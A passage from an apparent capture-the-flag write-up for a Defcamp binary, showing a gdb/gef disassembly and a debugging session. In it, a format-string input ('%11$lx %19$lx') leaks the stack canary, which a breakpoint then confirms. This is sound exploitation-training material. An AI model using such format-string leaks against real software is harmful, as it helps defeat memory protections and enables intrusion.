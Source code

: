 ```r
   0x00000000000007e5 <+107>:	mov    eax,0x0
   0x00000000000007ea <+112>:	call   0x640 <printf@plt>
   0x00000000000007ef <+117>:	lea    rdi,[rip+0xd2]        # 0x8c8
   0x00000000000007f6 <+124>:	mov    eax,0x0
   0x00000000000007fb <+129>:	call   0x640 <printf@plt>
   0x0000000000000800 <+134>:	mov    rdx,QWORD PTR [rbp-0x28]
   0x0000000000000804 <+138>:	lea    rax,[rbp-0x20]
   0x0000000000000808 <+142>:	mov    esi,0x100
   0x000000000000080d <+147>:	mov    rdi,rax
   0x0000000000000810 <+150>:	call   0x650 <fgets@plt>
   0x0000000000000815 <+155>:	mov    eax,0x0
   0x000000000000081a <+160>:	mov    rcx,QWORD PTR [rbp-0x8]
   0x000000000000081e <+164>:	xor    rcx,QWORD PTR fs:0x28   <- This line checks whether the provided canary is equal to the one calculated before
   0x0000000000000827 <+173>:	je     0x82e <main+180>
   0x0000000000000829 <+175>:	call   0x630 <__stack_chk_fail@plt>
   0x000000000000082e <+180>:	leave  
   0x000000000000082f <+181>:	ret    
End of assembler dump.
```

Let's try to check those two offsets 11 and 19 to see if it's the stack canary or not:-

At first, we need to setup a breakpoint at the instruction where the comaprison happens i.e. `main+164` and we will just give random input at second and analyse the registers.

```r
gef➤  b *main+164
Breakpoint 1 at 0x81e
gef➤  r
Starting program: /home/robin/CTFs/Defcamp/q3 
Enter name : %11$lx %19$lx 
Hello
50a01b0663fa1e00 ebd42dea12670b41
Enter sentence : AAAA
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x50a01b0663fa1e00
$rdx   : 0x00007ffff7dd18d0  →  0x0000000000000000
$rsp   : 0x00007fffffffdd10  →  0x00007ffff7de59a0  →  <_dl_fini+0> push rbp
$rbp   : 0x00007fffffffdd40  →  0x0000555555554830  →  <__libc_csu_init+0> push r15
$rsi   : 0x00007fffffffdd20  →  0x2520000a41414141 ("AAAA"?)
$rdi   : 0x00007fffffffdd21  →  0x312520000a414141 ("AAA"?)
$rip   : 0x000055555555481e  →  0x000028250c334864 ("dH3
                                                        %("?)
$r8    : 0x0000555555756675  →  "x %19$lx"
$r9    : 0x00007ffff7fd24c0  →  0x00007ffff7fd24c0  →  [loop detected]
$r10   : 0x00007ffff7fd24c0  →  0x00007ffff7fd24c0  →  [loop detected]
$r11   : 0x246             
$r12   : 0x0000555555554670  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffde20  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdd10│+0x0000: 0x00007ffff7de59a0  →  <_dl_fini+0> push rbp	 ← $rsp
```